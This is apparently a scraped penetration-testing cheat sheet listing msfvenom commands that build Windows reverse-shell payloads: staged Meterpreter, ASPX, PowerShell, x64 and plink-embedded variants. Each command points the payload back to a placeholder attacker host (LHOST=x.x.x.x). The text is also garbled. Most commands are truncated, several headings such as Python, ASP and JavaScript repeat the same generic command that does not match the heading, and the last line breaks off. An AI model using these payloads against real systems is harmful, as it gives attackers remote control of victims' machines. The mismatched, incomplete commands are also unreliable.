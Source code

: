# **Windows**

#Windows Unicode reverse shell (for html or browser exploit) without encoder  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
**

### # Windows non staged reverse shell

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows Staged (Meterpreter) reverse shell

**

###   
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows Python reverse shell

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows ASP reverse shell

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows ASPX reverse shell

**

###   
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows JavaScript reverse shell with nops

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows Powershell reverse shell

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows reverse shell excluding bad characters

**

###   
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=x.x.x.x  
  

**

### # Windows x64 bit reverse shell

**

###   
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x  
  

**

### # Windows reverse shell embedded into plink

**

###   
msfvenom -p windows/shell_reverse_tcp LHOST=

x.x.x.x